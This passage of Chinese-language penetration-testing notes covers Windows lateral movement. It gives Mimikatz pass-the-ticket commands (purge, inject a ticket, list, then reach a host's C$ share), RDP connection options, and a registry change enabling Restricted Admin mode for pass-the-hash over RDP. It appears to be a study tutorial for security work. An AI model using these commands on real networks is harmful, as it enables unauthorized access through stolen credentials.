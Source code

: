 4. 清除票据

   ```
   kerberos::purge 
   ```

5. 将票据注入内存

   ```
   kerberos::ptt 票据地址 
   ```

6. 查看票据

   ```
   kerberos::list
   ```

7. 票据利用

   ```
   dir \owa.god.org\c$
   ```



### RDP协议

`RDP（Remote Display Protocol ）`叫做远程显示协议，默认端口为`3389`

在`Linux`上面就是通过`Xshell`连接的`SSHxeiy`协议，在`windows`上面就是类似`Linux`的`RDP`协议

`window`开启远程连接界面：在运行里输入`mstsc`

**mstsc 和mstsc /admin 区别**

- mstsc连接服务器后的身份标识是普通用户，如果登陆了其他高级用户，该用户就无法登陆
- mstsc /admin连接服务器后的身份标识是管理员账户，最优先连接，如果登陆了其他的登陆级别的用户，这些账户会断开连接

也可以用命令行连接：

```
window:
mstsc.exe /console /v:192.168.3.21 /admin

linux:
rdesktop 192.168.3.21:3389
```

`RDP`密文`HASH`链接

`windows Server`需要开启 `Restricted Admin mode`，在`Windows 8.1`和`Windows Server 2012 R2`中默认开启，同时如果`Win 7` 和`Windows Server 2008 R2`安装了`2871997`、`2973351`补丁也支持

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

运行`Restricted Admin mode`服务

```
mstsc.exe /restrictedadmin
```
